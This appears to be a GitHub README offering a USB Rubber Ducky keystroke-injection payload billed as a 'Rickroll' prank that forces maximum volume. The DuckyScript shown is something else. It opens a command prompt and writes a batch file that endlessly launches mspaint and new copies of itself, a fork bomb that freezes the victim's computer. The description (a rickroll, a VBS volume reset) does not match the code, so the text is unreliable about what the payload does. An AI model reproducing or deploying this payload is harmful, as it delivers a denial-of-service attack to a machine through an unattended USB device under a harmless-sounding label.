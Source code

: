 # Rickroll MODDED
This is a modification from the real "Rickroll". It does the same, but it's got a big difference: It sets the volume to the maximum continuously. What happens if someone tries to get down the volume? A vbs resets it to the maximum level. It seems funny, isn't it?
# About...
Version: 1.0

Author: BlueArduino20

# Code for Rubber Ducky
<pre><code>DELAY 3500
GUI r
DELAY 100
STRING CMD
ENTER
DELAY 100
STRING copy con F.bat
ENTER
STRING :A
ENTER
STRING start mspaint.exe && start F.bat && cls
ENTER
STRING GOTO A
ENTER
CTRL z
ENTER
DELAY 100
STRING start F.bat</pre></code>
